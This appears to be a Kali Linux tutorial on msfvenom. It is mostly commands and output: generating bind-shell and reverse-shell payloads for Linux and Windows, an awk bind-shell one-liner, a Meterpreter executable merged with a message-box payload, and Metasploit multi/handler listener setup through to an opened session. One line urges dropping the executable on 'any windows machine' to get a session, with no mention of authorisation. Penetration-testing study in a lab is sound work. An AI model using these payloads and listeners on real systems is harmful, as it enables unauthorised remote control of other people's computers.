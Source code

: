 MSFvenom is the tool to use for payload generation and encoding and it is an evolution of `msfpayload` and `msfencode`.
This is a tool in the Metasploit Framework that is used to generate payloads for exploiting vulnerabilities.
## Payloads and payload options

#### Displaying the help menu for MSFvenom
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -h 
```

#### Displaying all the payloads available in metasploit
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -l payloads            

Framework Payloads (968 total) [--payload <value>]
```

#### Generating a payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -p cmd/unix/bind_awk -f raw
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 140 bytes
awk 'BEGIN{s="/inet/tcp/4444/0/0";do{if((s|&getline c)<=0)break;if(c){while((c|&getline)>0)print $0|&s;close(c)}} while(c!="exit")close(s)}'
```
- To generate a payload, we always need to use at least two options, `-p` and `-f`.
- `-p` --> It is used to specify the required payload that we want to generate from availables payloads.
- Above a bind shell via GNU AWK.
- `-f` --> It is used to spacify the output format.

#### Listing all the output formats
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom --list formats
```
- There are two types of formats in msfvenom, executable and transform
- Executable formats will generate programs and scripts, while transform formats will just produce the payload.

#### Spacifying a custom payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# cat custom.raw | msfvenom -p - -a x64 --platform linux -f elf -o custom.elf
```
1.  `cat custom.raw` - This command is used to display the contents of the file `custom.raw` on the terminal.
2. `|` - This is a pipe symbol that is used to redirect the output of the previous command to the input of the next command.
3. `msfvenom` - This is a tool in the Metasploit Framework that is used to generate payloads for exploiting vulnerabilities.
4. `-p -` - This option tells msfvenom to read the payload from standard input rather than from a file.
5. `-a x64` - This option specifies the target architecture of the payload as x64.
6. `--platform linux` - This option specifies the target platform as Linux.
7. `-f elf` - This option specifies the output format of the payload as an ELF file, which is a common format used on Linux systems.
8. `-o custom.elf` - This option specifies the output filename as `custom.elf`.

#### Listing all the available platforms
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom --list platforms
```

#### Generating the smallest possible payload 
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -p linux/x64/shell_bind_tcp -f elf --smallest -o small.elf 
```
- The `--smallest` option, which we can use to generate the smallest possible payload.

##### Setting the execution permission for the payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# chmod +x small.elf       
┌──(root㉿kali)-[/home/hyok]
└─# ./small.elf   
```

##### Connecting to the bind shell which we form previously
```python
┌──(root㉿kali)-[/home/hyok]
└─# nc 127.0.0.1 4444
hostname
kali
```

## Creating a linux payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.216.9 LPORT=1234 -f elf -o reverse.elf
```

#### Listing the payload options
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom --list-options -p linux/x64/shell_reverse_tcp
```

#### Setting up our listener
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q                                         
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/shell/reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.216.9:1234 
```

#### Setting the execution permission using the `chmod` command, and then run the payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# chmod +x reverse.elf                                         
                                                                          
┌──(root㉿kali)-[/home/hyok]
└─# ./reverse.elf 
```

#### We have a session
```python
[*] Sending stage (38 bytes) to 192.168.216.9
[*] Command shell session 1 opened (192.168.216.9:1234 -> 192.168.216.9:36034) at 2023-04-07 14:53:57 +0530
```

## Creating a Windows payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.9 -f exe -o payload.exe
```

#### Setting up the listener for the above payload
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfconsole -q                                                                                                  
[*] Starting persistent handler(s)...
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.216.9
LHOST => 192.168.216.9
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.216.9:4444 
```
Note - Drop your payload.exe to any windows machine and then you get a session.

## Creating a payload that pop up a message on target and give us session

#### First we will create a simple payload which is just pop up a message on target system
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -a x86 --platform windows -p windows/messagebox TEXT="Welcome" -f raw > payload                  
No encoder specified, outputting raw payload
Payload size: 267 bytes
```

#### Adding the features of `payload` to our new `npayload`
```python
┌──(root㉿kali)-[/home/hyok]
└─# msfvenom -c payload -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.9 -f exe -o npayload    
Adding shellcode from payload to the payload
No encoder specified, outputting raw payload
Payload size: 940 bytes
Final size of exe file: 73802 bytes
Saved as: npayload
```

#### Result of execution of payload
![[messageBox.jpeg]]
